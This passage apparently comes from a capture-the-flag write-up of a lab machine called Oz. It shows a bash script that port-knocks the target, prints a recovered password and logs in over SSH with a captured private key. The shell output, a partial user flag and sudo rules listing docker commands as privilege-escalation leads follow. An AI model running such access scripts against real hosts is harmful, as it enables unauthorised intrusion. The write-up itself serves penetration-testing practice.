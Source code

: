 ### SSH as dorthi

Now I have everything I need to SSH as dorthi. I converted the port knocking onliner into a bash “get shell” script:

```

#!/bin/bash

ports="40809 50212 46969"

for port in $ports; do 
    
    echo "[*] Knocking on ${port}"
    echo "a" | nc -u -w 1 10.10.10.96 ${port}
    sleep 0.1
done; 

echo "[*] Knocking done."
echo "[*] Password:"
echo "N0Pl4c3L1keH0me"

ssh -i ~/id_rsa-oz-dorthi dorthi@10.10.10.96

```

Run it, and get a shell, and user.txt:

```

root@kali# ./ssh_dorthi.sh 
[*] Knocking on 40809
[*] Knocking on 50212
[*] Knocking on 46969
[*] Knocking done.
[*] Password:
N0Pl4c3L1keH0me
Enter passphrase for key '/root/id_rsa-oz-dorthi': 
dorthi@Oz:~$ id
uid=1000(dorthi) gid=1000(dorthi) groups=1000(dorthi)
dorthi@Oz:~$ cat user.txt 
c21cff3b...

```

## Enumerate Docker Networks

### sudo -l

One of the first things I always check in Linux privesc is `sudo -l`. In this case, dorthi has entries:

```

dorthi@Oz:/dev/shm$ sudo -l
Matching Defaults entries for dorthi on Oz:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dorthi may run the following commands on Oz:
    (ALL) NOPASSWD: /usr/bin/docker network inspect *
    (ALL) NOPASSWD: /usr/bin/docker network ls

```
